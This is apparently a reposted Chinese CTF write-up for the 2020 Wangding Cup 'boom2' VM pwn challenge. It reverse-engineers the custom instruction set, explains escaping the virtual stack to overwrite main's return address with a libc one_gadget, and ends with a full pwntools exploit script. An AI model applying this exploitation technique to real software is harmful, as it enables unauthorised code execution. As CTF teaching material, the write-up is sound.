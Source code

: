 # 【复现】网鼎杯 2020 pwn boom2

> 转载自：[[pwn]VMpwn：2020网鼎杯青龙组pwn boom2 wp](https://blog.csdn.net/Breeze_CAT/article/details/106078982)

#### 题目分析

首先检查一下安全策略：

```shell
[*] './pwn/wdb2020/boom2/pwn'
    Arch:     amd64-64-little
    RELRO:    Full RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled
```

都着开，然后简单看一下逻辑：

```shell
➜  boom2 ./pwn
MC execution system
Input your code> asd
```

执行之后让你输入code，随便输了一些东西之后就啥也没有了。。。只能逆向看了：

看到程序基本只有一个main函数，几乎全部的逻辑都是在main函数里完成的，可以看到main函数主要部分是一个非常大的switch结构：

<img src="./graph.png" style="zoom:50%;" />

**一般情况这种题目都是VM pwn或者是一个解释器。这道题目是一个VM Pwn。**

VM Pwn就是题目自定义了一套指令系统，并且模拟了一套CPU的环境（寄存器、栈等结构）我们需要通过逆向分析题目给定的指令系统，使用这些指令来读写虚拟内存之外的数据，也就是简单的虚拟机逃逸。

本题逻辑不是很复杂：

![](./init.png)

题目先申请了两个大小为0x40000的内存空间，一块用作虚拟栈，另一块用作我们输入的数据缓冲区。接下来对虚拟站进行了初始化，栈初始结构大概如下：

```shell
sp  : bp(虚拟栈底指针bp)
bp-3: real_stack(真实栈指针)
bp-2: 0
bp-1: 13
bp  : 30
```

可以从gdb中看出栈顶下面的一个地址是指向真实栈空间的：

![](./gdb.png)

我们可以利用这一个指向真实栈的地址来进行逃逸。

然后就是一个巨大的switch结构：

![](./code.png)

大体功能就是，从我们输入的内容中获取一个int64长度的值作为指令，最多执行30个指令。各个指令并不难分析，有一些指令附带立即数（immcode），有一些指令没有，分析结果如下：

```shell
0 immcode: reg=[sp+immcode]
1 immcode: reg=immcode
6 immcode: push bp; bp=sp; sp-=immcode
8 immcode: leave; ret
9        : reg=[reg]
10       : reg=char([reg])
11       : [sp]=reg(int64)
12       : [sp]=reg(byte)
13       : push reg
14       : [sp]=[sp] | reg; pop reg
15       : [sp]=[sp] ^ reg; pop reg
16       : [sp]=[sp] & reg; pop reg
17       : [sp]=[sp] == reg; pop reg
18       : [sp]=[sp] != reg; pop reg
19       : [sp]=[sp] < reg; pop reg
20       : [sp]=[sp] > reg; pop reg
21       : [sp]=[sp] <= reg; pop reg
22       : [sp]=[sp] >= reg; pop reg
23       : [sp]=[sp] << reg; pop reg
24       : [sp]=[sp] >> reg; pop reg
25       : [sp]=[sp] + reg; pop reg
26       : [sp]=[sp] - reg; pop reg
27       : [sp]=[sp] * reg; pop reg
28       : [sp]=[sp] / reg; pop reg
29       : [sp]=[sp] % reg; pop reg
30       : exit
```

#### 漏洞利用
这些指令本身没什么大问题，问题在于虚拟栈初始状态中里面有一个指向实际栈的指针，而我们可以通过加减运算来和9指令就可以获取实际栈上的值（但无法回显，只能参与运算）。通过11和12指令可以改写实际栈上的值。

大体思路就是利用上述修改栈上值的手段修改栈上main函数的返回值为onegadget。首先要看一下有哪些gadget（这里用的是我自己的环境libc-2.27.so，比赛环境libc好像是跟第一题一样）

![](./og.png)

可以断在main函数返回的地方，来看一下满足哪个onegadget：

![](./og_stack.png)

可以看出满足第一个onegadget。

然后是计算libc的地址，我们可以直接从栈上寻找：

![](./og_gdb.png)

可以看到main函数的返回地址（libc_start_main+231）正好是libc中的地址。那么我们可以直接通过这个地址计算出onegadget的地址并且覆盖回这个地址就好了（省事了。。。）

虚拟栈中的真实栈指针与返回地址的偏移为：0x7ffc2f666330-0x7ffc2f666248=0xe8

利用步骤如下：

1. 首先进行一次pop将初始栈顶的bp pop出来
2. 这时栈顶就是真实栈指针了，然后利用指令1将reg寄存器置为便宜0xe8，然后利用指令26，让栈指针减0xe8，并利用指令13将结果重新入栈
3. 使用指令9取值，获取返回地址处的值（也就是libc_start_main+231的地址），并用13指令将获取到的值入栈
4. 利用指令1将reg置为libc_start_main+231的偏移值offset，然后利用指令26让libc_start_main+231地址减偏移，得到libc的基址，并用13指令将获取到的libc基址入栈
5. 利用指令1将reg置为onegadget的偏移offset，然后利用指令25计算出libc基址加onegadget偏移，也就是onegadget的地址
6. 这时栈顶是之前步骤2入栈的返回地址指针，利用指令11将onegadget写入覆盖返回地址
7. 然后直接发送即可。

### EXP

```python
from pwn import * 
context.terminal=['tmux','splitw','-h']
p=process("./pwn")
#gdb.attach(p,"""
#b *$rebase(0xa0e)
#b *$rebase(0xa36)
#""")

libc231=0x7f9848c0cb97-0x7f9848beb000
onegadget=0x4f2c5
print p.recv()

payload=p64(14)  #步骤1
payload+=p64(1)+p64(0xe8)+p64(26)+p64(13) #步骤2
payload+=p64(9)+p64(13)   #步骤3
payload+=p64(1)+p64(libc231)+p64(26)+p64(13) #步骤4
payload+=p64(1)+p64(onegadget)+p64(25) #步骤5
payload+=p64(11) #步骤6
p.send(payload) #步骤7

p.interactive()
```

